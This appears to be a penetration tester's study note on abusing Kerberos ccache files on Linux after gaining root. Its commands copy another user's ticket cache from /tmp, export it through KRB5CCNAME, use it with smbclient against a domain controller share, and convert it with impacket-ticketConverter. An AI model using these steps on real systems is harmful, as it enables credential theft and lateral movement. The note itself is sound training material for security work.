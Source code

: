```yaml
---
tags:
  - Kerberos
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```

To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.
#### Importing the ccache File into our Current Session

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```
```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]]

```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```


### Using Tools

See [[Evil-WinRM#Kerberos]] and [[SSH Tunnelling#Chisel]]


## Converting Between Windows and Linux Ticket Files

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [[Impacket#Impacket Ticket Converter]] to convert them.

Ccache to `Kirbi`

```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.